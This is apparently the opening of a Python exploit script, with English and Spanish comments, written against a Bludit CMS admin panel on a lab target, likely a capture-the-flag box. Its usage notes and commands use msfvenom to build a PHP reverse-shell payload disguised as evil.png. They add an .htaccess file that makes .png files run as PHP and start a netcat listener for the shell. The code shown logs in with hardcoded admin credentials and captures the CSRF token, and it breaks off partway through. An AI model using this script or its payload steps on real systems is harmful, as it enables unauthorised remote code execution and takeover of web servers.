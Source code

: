 ```python

#### USAGE ####
# 1. Create payloads: .png with PHP payload and the .htaccess to treat .pngs like PHP
# 2. Change hardcoded values: URL is your target webapp, username and password is admin creds to get to the admin dir
# 3. Run the exploit
# 4. Start a listener to match your payload: `nc -nlvp 53`, meterpreter multi handler, etc
# 5. Visit your target web app and open the evil picture: visit url + /bl-content/tmp/temp/evil.png

#!/usr/bin/env python3

import requests
import re
import argparse
import random
import string
import base64
import threading

from requests.exceptions import Timeout
from pwn import *

# Cambiando los Valores a los nuestros
url = 'http://10.10.10.191'  # CHANGE ME
username = 'fergus'  # CHANGE ME
password = 'RolandDeschain'  # CHANGE ME
lport = 443

# Paso 1
# msfvenom -p php/reverse_php LHOST=127.0.0.1 LPORT=53 -f raw -b '"' > evil.png
# echo -e "<?php $(cat evil.png)" > evil.png 
payload = 'evil.png'  # CREATE ME

# Paso 2
# echo "RewriteEngine off" > .htaccess
# echo "AddType application/x-httpd-php .png" >> .htaccess
payload2 = '.htaccess'  # CREATE ME

def login(url,username,password):
    """ Log in with provided admin creds, grab the cookie once authenticated """

    session = requests.Session()
    login_page = session.get(url + "/admin/")
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"',
                           login_page.text
                 ).group(1)
    cookie = ((login_page.headers["Set-Cookie"]).split(";")[0].split("=")[1])
    data = {"save":"",
            "password":password,
            "tokenCSRF":csrf_token,
            "username":username}
    headers = {"Origin":url,
               "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Upgrade-Insecure-Requests":"1",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer": url + "/admin/",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate",
               "Content-Type":"application/x-www-form-urlencoded"
    }
```